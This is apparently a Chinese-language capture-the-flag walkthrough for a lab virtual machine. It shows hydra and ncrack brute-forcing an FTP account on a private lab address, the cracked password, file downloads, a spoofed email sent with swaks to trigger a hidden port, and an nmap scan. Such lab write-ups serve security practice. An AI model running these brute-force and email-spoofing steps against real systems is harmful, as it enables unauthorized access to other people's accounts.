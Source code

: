 新的隐密端口将打开，存在Wifi密码，Veronica或Billy知道密码，签入Veronica的FTP文件夹。
观看了视频，13秒的视频，念了一句话：My kid will be a soccer player

1）新的端口即将开放？
2）Wifi密码？
3）Veronica或Billy知道密码？
4）爆破Veronica ftp用户！
5）发送邮件：My kid will be a soccer player

veronica ftp爆破

hydra -l veronica -P dayu.txt ftp://192.168.253.191
[21][ftp] host: 192.168.253.191   login: veronica   password: babygirl_veronica07@yahoo.com

知识拓展：
https://blog.csdn.net/CliffordR/article/details/81050414
ncrack暴力破解FTP：
ncrack -u veronica -P dayu.txt -T 5 192.168.253.191 -p 21


ftp 192.168.253.191
veronica
babygirl_veronica07@yahoo.com
-rwxrwxrwx 1 ftp 719128 Aug 17 12:16 eg-01.cap
-rwxrwxrwx 1 ftp 595 Aug 20 12:55 email-from-billy.eml

get eg-01.cap
get email-from-billy.eml


email-from-billy.eml提示：
1）用了swaks发送邮件
X-Mailer: swaks v20130209.0 jetmore.org/john/code/swaks/
2）讲述了他如何破解 Eric 的无线密码


----------------------------------------
----------------------------------------
10、邮件发送

swaks 是一个 SMTP 服务器，它是由 John Jetmore 开发的一个功能强大、灵活、可编写脚本、面向事务的工具。

eric@madisonhotels.com
vvaughn@polyfector.edu
2525    smtp
My kid will be a soccer player   ---内容

**swaks --to eric@madisonhotels.com --from vvaughn@polyfector.edu --server 192.168.139.1561:2525 --body "My kid will be a soccer player"  --header "Subject: My kid will be soccer player"**

或者手写！！
按照意思发送了一封邮件过去！
<-  221 Bye
=== Connection closed with remote host.


nmap 192.168.253.191 -p- -A
1974/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
